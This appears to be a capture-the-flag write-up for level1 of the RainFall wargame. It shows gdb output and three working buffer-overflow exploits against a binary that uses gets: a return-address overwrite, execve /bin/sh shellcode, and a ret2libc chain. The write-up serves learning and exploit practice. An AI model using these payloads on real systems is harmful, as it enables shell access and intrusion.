 ```console
level1@RainFall:~$ gdb level1
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) b *0x08048490
Breakpoint 1 at 0x8048490
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048490 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x/w $eax
0xbffff6f0:	134513824
(gdb) p/d 0xbffff73c - 0xbffff6f0
$1 = 76
(gdb)
```

### Goal 

`eax` of `gets` will write at 0xbffff6f0. The `eip` is at 0xbffff73c. So we want to overwrite `eip` and write adsress of `run` in, by overflowing `eax`.


```bash
(gdb) info functions
```

```console
0x08048444  run
0x08048480  main
```

return address of `run` is `0x08048444` which is `0x44\x84\x04\x08` in little endian.

### Exploit

```bash
(python -c "print 'A' * 76 + '\x44\x84\x04\x08'"; cat)  | ./level1
```

# Or shellcode

```bash
(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A" * (76-23) + "\xf0\xf6\xff\xbf"'; cat) | /home/user/level1/level1
```
`\xf0\xf6\xff\xbf` is the address of the buffer.


# Or ret2libc

```bash
(python -c 'print "a" * 76 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat ) | /home/user/level1/level1
```

``` bash
(gdb) level1
(gdb) b *main
(gdb) r
```bash

first: address of system `(gdb) p system`
second: address of exit `(gdb) p exit`
third: address of "/bin/sh" `find &system,+9999999,"/bin/sh"`
